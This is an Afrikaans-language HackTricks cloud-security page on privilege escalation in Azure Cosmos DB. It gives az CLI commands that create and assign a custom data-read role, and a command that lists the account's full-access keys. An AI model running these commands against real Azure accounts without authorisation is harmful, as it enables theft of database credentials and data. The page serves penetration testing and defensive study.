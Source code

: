 # Az - CosmosDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## CosmosDB Privesc
Vir meer inligting oor SQL Database, kyk:

{{#ref}}
../az-services/az-cosmosDB.md
{{#endref}}

### (`Microsoft.DocumentDB/databaseAccounts/sqlRoleDefinitions/write`, `Microsoft.DocumentDB/databaseAccounts/sqlRoleDefinitions/read`) & (`Microsoft.DocumentDB/databaseAccounts/sqlRoleAssignments/write`, `Microsoft.DocumentDB/databaseAccounts/sqlRoleAssignments/read`)

Met hierdie toestemmings kan jy priviledge eskaleer deur 'n gebruiker die toestemmings te gee om navrae uit te voer en met die databasis te verbind. Eerstens word 'n rol gedefinieer wat die nodige toestemmings en skope gee.
```bash
az cosmosdb sql role definition create \
--account-name <account_name> \
--resource-group <resource_group_name> \
--body '{
"Id": "<Random-Unique-ID>", # For example 12345678-1234-1234-1234-123456789az
"RoleName": "CustomReadRole",
"Type": "CustomRole",
"AssignableScopes": [
"/subscriptions/<subscription_id>/resourceGroups/sqldatabase/providers/Microsoft.DocumentDB/databaseAccounts/<account_name>"
],
"Permissions": [
{
"DataActions": [
"Microsoft.DocumentDB/databaseAccounts/readMetadata",
"Microsoft.DocumentDB/databaseAccounts/sqlDatabases/containers/items/read",
"Microsoft.DocumentDB/databaseAccounts/sqlDatabases/containers/*"
]
}
]
}'
```
Daarna word die toekenning van die definisie aan 'n gebruiker gegee. Daarna kan daardie gebruiker die DefaultAzureCredential() verbindingsmetode gebruik om navrae uit te voer.
```bash
az cosmosdb sql role assignment create \
--account-name <account_name> \
--resource-group <resource_group_name> \
--role-definition-id <Random-Unique-ID-used-in-definition> \
--principal-id <principal_id-togive-perms> \
--scope "/"
```
### `Microsoft.DocumentDB/databaseAccounts/listKeys/action`
Met hierdie toestemming kan jy die primêre en sekondêre sleutels vir 'n Azure Cosmos DB-rekening verkry. Hierdie sleutels bied volle toegang tot die databasisrekening en sy hulpbronne, wat aksies soos data lees, skryf en konfigurasiewijzigings moontlik maak.
```bash
az cosmosdb keys list \
--name <account_name> \
--resource-group <resource_group_name>

```
{{#include ../../../banners/hacktricks-training.md}}
